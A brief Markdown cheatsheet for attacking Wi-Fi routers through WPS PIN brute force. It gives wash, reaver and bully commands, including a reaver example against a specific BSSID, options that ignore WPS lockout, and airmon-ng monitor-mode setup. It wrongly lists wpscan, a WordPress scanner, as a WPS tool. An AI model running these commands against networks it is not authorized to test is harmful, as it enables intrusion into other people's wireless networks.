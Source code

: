 # WPS Attack Cheatsheet

## Tools
- `reaver`
- `bully`
- `wpscan`
- `wash`

## Scan for WPS-enabled Networks
```bash
wash -i <interface>
```

## Reaver WPS PIN Attack
```bash
reaver -i <interface> -b <BSSID> -c <channel> -vv
# Ejemplo
sudo reaver -b 34:08:04:09:3D:38 -i wlan0mon -v -K
```
- `-i`: Wireless interface (monitor mode)
- `-b`: Target BSSID (MAC address)
- `-c`: Channel
- `-vv`: Verbose output

## Bully WPS PIN Attack
```bash
bully <interface> -b <BSSID> -c <channel>
```

## Common Reaver Options
- `--wps-only`: Only attack WPS
- `-a`: Auto mode
- `-S`: Use small DH keys (faster)
- `-L`: Ignore locked WPS state

## Monitor Mode Setup
```bash
airmon-ng start <interface>
```
- Use the new monitor interface (e.g., `wlan0mon`)

## Stop Monitor Mode
```bash
airmon-ng stop <monitor-interface>
```

## Notes
- WPS attacks may take hours.
- Some routers lock WPS after failed attempts.
- Use `wash` to check WPS lock status.

## References
- [Reaver GitHub](https://github.com/t6x/reaver-wps-fork-t6x)
- [Bully GitHub](https://github.com/aanarchyy/bully)
- [Kali Linux Docs](https://www.kali.org/docs/)